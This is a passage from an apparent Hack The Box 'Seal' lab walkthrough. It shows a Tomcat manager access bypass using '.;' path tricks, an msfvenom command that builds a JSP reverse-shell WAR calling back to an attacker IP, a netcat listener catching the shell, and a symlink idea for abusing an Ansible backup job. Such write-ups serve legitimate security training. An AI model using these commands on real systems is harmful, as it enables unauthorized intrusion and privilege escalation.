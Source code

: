 Executing the script we see two 401 Errors.
  > The HTTP 401 Unauthorized client error status response code indicates that the request has
  > not been applied because it lacks valid authentication credentials for the target resource

If we try to visit https://10.10.10.250/manager/.;/html we are now presented with the Application Manager!


3. Create a .war reverse shell.

  [root:/git/htb/seal]# msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.2 lport=4488 -f war > rev.war                         (master✱)
    Payload size: 1100 bytes
    Final size of war file: 1100 bytes

Upload it using the GUI, but before deploying enable the burp proxy to capture the POST request.
In the request add the between (.;) symbols to bypass the 403 and the file should upload successfully.

Setup a listener and visit https://seal.htb/rev to get your shell.

  [root:/opt]# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.250] 48564
    id && hostname
      uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
      seal
    python3 -c 'import pty;pty.spawn("/bin/bash")';
    tomcat@seal:/var/lib/tomcat9$


4. We are unable to (easily) upload linpeas to the machine, however we quickly find a backup script that's ran by user luis every minute.

  cat /opt/backups/playbook/run.yml
  - hosts: localhost
    tasks:
    - name: Copy Files
      synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
    - name: Server Backups
      archive:
        path: /opt/backups/files/
        dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
    - name: Clean
      file:
        state: absent
        path: /opt/backups/files/

From the script/program, we see that dashboard and everything within are backed up to /opt/backups/archive. At the end of the line
they say "copy_links=yes", digging a bit deeper in to this I found:
  > "Copy symlinks as the item that they point to (the referent) is copied, rather than the symlink."

Meaning if we can create a symlink in /var/lib/tomcat9/webapps/ROOT/admin/dashboard/, the content of the symlink will be backed up.

